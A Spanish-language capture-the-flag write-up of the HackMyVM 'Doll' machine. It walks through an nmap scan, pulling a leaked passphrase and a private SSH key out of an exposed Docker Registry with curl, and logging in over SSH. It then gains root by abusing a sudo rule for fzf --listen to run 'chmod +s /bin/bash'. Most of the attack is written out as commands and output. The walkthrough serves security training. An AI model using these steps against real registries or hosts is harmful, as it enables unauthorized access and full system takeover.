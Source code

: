 ```yaml
---
layout: post
title: Doll
date: 2023-05-20
author: BlackCage
categories: [HackMyVM]
tags: [HMV, Docker Registry, SSH]
---
```


# Printer [ Hack My VM ]
![light mode only](/assets/img/imgs/doll/logo.jpg){: .light }
![dark mode only](/assets/img/imgs/doll/logo_black.png){: .dark }

# Reconocimiento
### NMAP
```
# Nmap 7.93 scan initiated Sat May 20 14:02:11 2023 as: nmap -sCV -p22,1007 -oN targeted 192.168.1.112
Nmap scan report for 192.168.1.112
Host is up (0.00065s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 d732ac404ba84166d3d811496ceded4b (RSA)
|   256 810e67f8c3d2501e4d092a5811c8d495 (ECDSA)
|_  256 0dc37c540b9d3132f2d909d3eded93cd (ED25519)
1007/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 20 14:03:02 2023 -- 1 IP address (1 host up) scanned in 50.60 seconds
```

Vemos que el puerto `22` está abierto, pero no tenemos ningún usuaio para poder conectarnos.

### Inspección
Como anteriormente hemos visto, **NMAP** nos ha reportado un puerto algo extraño, vamos a buscar más información sobre `Docker Registry`.

Tras hacer una búsqueda me encontré con un artículo de [**`HackTricks`**](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry), aquí explica paso a paso cómo listar los `Dockers` disponibles en el caso de que sea público.

Para comenzar tendremos que dirigirnos a la siguiente `URL`: `http://192.168.1.112/v2/_catalog`.

Nos debería aparecer lo siguiente:

![catalog](/assets/img/imgs/doll/catalog.png)

Vemos que solo existe un imagen, esto nos hará más fácil la explotación.

Bien, una vez tengamos estos datos podemos hacer una petición con `cURL` al siguiente **`endpoint`**: `/v2/dolly/manifests/latest`:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/]
└─# curl http://192.168.1.112:1007/v2/dolly/manifests/latest      
{
   "schemaVersion": 1,
   "name": "dolly",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
      },
    [..]
   ],
   "history": [
      {
         [...]
      },
      {
         "v1Compatibility": "{\"id\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\",\"parent\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"comment\":\"buildkit.dockerfile.v0\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"ARG passwd=devilcollectsit\"]},\"throwaway\":true}"
      },
   [...]
}
```

Vemos bastante información, pero entre todo aquel cúmulo letras veremos la siguiente línea: `passwd=devilcollectsit`, tal vez ahora no nos haga falta, pero será de vital importancia.

¡Bien! Tenemos una contraseña e información importante, vamos a ver qué podemos hacer.

# Movimiento Lateral
### Shell
Para el siguiente paso utilizaremos la información extraída anteriormente.

Como habréis visto en la respuesta `JSON` anterior, tenemos varios `BlobSums`, vamos a descarganos el primer **`Blob`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# curl http://192.168.1.112:1007/v2/dolly/blobs/sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017 --output blob.tar

┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# ls -la
total 12
drwxr-xr-x 2 root root 4096 May 20 15:08 .
drwxr-xr-x 6 root root 4096 May 20 14:26 ..
-rw-r--r-- 1 root root 3707 May 20 15:08 blob.tar
```

Vamos a descomprimirlo, para ello utilizaremos la herramienta **`TAR`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# tar -xf blob.tar

┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# ls -la
total 24
drwxr-xr-x 5 root root 4096 May 20 15:09 .
drwxr-xr-x 6 root root 4096 May 20 14:26 ..
-rw-r--r-- 1 root root 3707 May 20 15:08 blob.tar
drwxr-xr-x 2 root root 4096 Apr 25 04:52 etc
drwxr-xr-x 3 root root 4096 Apr 25 04:52 home
drwx------ 2 root root 4096 Apr 25 04:52 root
```

Vemos varias carpetas, pero la que nos interesa es la carpeta `home`, si nos adentramos veremos que hay una subcarpeta con el nombre de un usuario, `bela`.

Si continuamos investigando veremos que dentro de su directorio personal tiene la carpeta `.ssh`, vamos a ver qué tiene dentro:

```sh
┌──(root㉿kali)-[~/…/Doll/exploits/home/bela]
└─# ls -la
total 16
drwxr-sr-x 3 kali kali 4096 Apr 25 04:53 .
drwxr-xr-x 3 root root 4096 Apr 25 04:52 ..
-rw------- 1 kali kali   57 Apr 25 04:53 .ash_history
drwxr-sr-x 2 kali kali 4096 Apr 25 04:53 .ssh
-rwxr-xr-x 1 kali kali    0 Dec 31  1969 .wh..wh..opq
                                                                                                                                       
┌──(root㉿kali)-[~/…/Doll/exploits/home/bela]
└─# cd .ssh 
                                                                                                                                       
┌──(root㉿kali)-[~/…/exploits/home/bela/.ssh]
└─# ls -la
total 12
drwxr-sr-x 2 kali kali 4096 Apr 25 04:53 .
drwxr-sr-x 3 kali kali 4096 Apr 25 04:53 ..
-rw-r--r-- 1 kali kali 2635 Apr 25 04:53 id_rsa
```

¡Wow! Tenemos la clave `RSA` privada de `Bela`, démosle permisos y accedamos:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# chmod 600 bela.id_rsa

┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112                       
Enter passphrase for key 'bela.id_rsa': 
```

Vemos que nos pide una clave de acceso, por suerte recordamos la contraseña antes encontrada y la probamos:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112
Enter passphrase for key 'bela.id_rsa': devilcollectsit
Linux doll 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat May 20 21:14:59 2023 from 192.168.1.106
bela@doll:~$
```

¡Estupendo! Ya estamos como `Bela` en la máquina.

### Subida de privilegios
Para conseguir el **control total** de la máquina comencé por mirar los permisos que disponía en la máquina con `sudo -l`:

```sh
bela@doll:~$ sudo -l
Matching Defaults entries for bela on doll:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bela may run the following commands on doll:
    (ALL) NOPASSWD: /usr/bin/fzf --listen\=1337
```

Vemos que podemos ejecutar como cualquier usuario y sin contraseña (es decir, como `root`) el binario `FZF` con el argumento `--listen=1337`, vamos a ver qué es lo que hace esta opción.

Para ello me miré el [manual](https://man.archlinux.org/man/fzf.1.en#listen_=HTTP_PORT_) del comando. Tras haber leído su funcionamiento podemos comenzazr con la explotación.

Para ello comenzaremos por traernos el puerto `1337` a nuestra máquina, para ello podemos utilizar el argumento **`-L`** de **`SSH`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112 -L 1337:127.0.0.1:1337
```

Ahora tendremos en nuestra máquina el puerto `1337`, esto nos servirá para enviar una petición **`POST`** con argumentos, en el manual ponen un ejemplo.

Para poder seguir con la explotación debemos ejecutar el binario como `root`:

```sh
bela@doll:~$ sudo /usr/bin/fzf --listen=1337
```

Una vez tengamos el binario ejecutado ya está todo listo para obtener el **control total** de la máquina, para ello nos falta enviar la siguiente petición **`POST`** mediante **`cURL`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# curl -X POST 127.0.0.1:1337 -d 'execute(chmod +s /bin/bash)'
```

Si vemos nuevos permisos de **`Bash`** nos debería salir lo siguiente:

```sh
bela@doll:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 mar 27  2022 /bin/bash
```

Como vemos ahora podemos ejecutar el binario con los permisos de `root`, es decir, nos podemos convertir en `root` haciendo lo siguiente:

```sh
bela@doll:~$ bash -p
bash-5.1#
```

¡Enhorabuena! Hemos conseguido tener el **control total** de la máquina. ¡Qué fácil!